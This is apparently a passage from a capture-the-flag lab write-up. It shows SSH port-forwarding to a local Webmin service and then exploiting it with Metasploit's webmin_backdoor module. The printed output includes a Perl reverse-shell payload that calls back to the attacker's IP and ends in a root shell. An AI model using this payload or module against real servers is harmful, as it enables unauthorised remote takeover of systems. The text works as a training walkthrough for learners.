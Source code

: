Google (wikipedia) say its a web server interface for administration...

...that runs by default on `port 10000`

you can confirm that with `netstat -tunlp`

It runs locally (nmap didnt get that) we need to `port-forward` it to us

for that tunneling we can use `chisel` wich require uploading the server  or use `ssh`

I go for ssh...choose any way you know...or not (XD I am personally learning it now..as I already know chisel and sshutle...)

SSH local Port Forwarding syntax :

ssh -L [LOCAL_IP:]LOCAL_PORT:DESTINATION:DESTINATION_PORT [USER@]SSH_SERVER

Visit `127.0.0.1:port` for access 

Aaaand it was hard to make it work...(timeout errors)

```
└──╼ $ssh -L 10000:127.0.0.1:10000 dwight@office.csl -i id_rsa -v

dwight@office:~$ debug1: Connection to port 10000 forwarding to 127.0.0.1 port 10000 requested.
debug1: channel 3: new [direct-tcpip]

...
```

we see the login portal but that's all, we have no valid creds

we fire metasploit and search for exploits

one is particulary interresting, its a backdoor payload we can install

```
msf6 exploit(linux/http/webmin_backdoor) > options

msf6 exploit(linux/http/webmin_backdoor) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(linux/http/webmin_backdoor) > set RPORT 10000
RPORT => 10000
msf6 exploit(linux/http/webmin_backdoor) > set LHOST 10.10.0.223
LHOST => 10.10.0.223

msf6 exploit(linux/http/webmin_backdoor) > run

[+] perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"10.10.0.223:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
[-] Handler failed to bind to 10.10.0.223:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Webmin 1.890 detected
[+] Webmin 1.890 is a supported target
[+] Webmin executed a benign check command
[+] The target is vulnerable.
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Generated command payload: perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"10.10.0.223:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
[*] Command shell session 1 opened (10.0.2.15:4444 -> 10.0.2.2:48714) at 2021-12-01 01:37:47 +0100

id
uid=0(root) gid=0(root) groups=0(root)

shell
[*] Trying to find binary 'python' on the target machine
```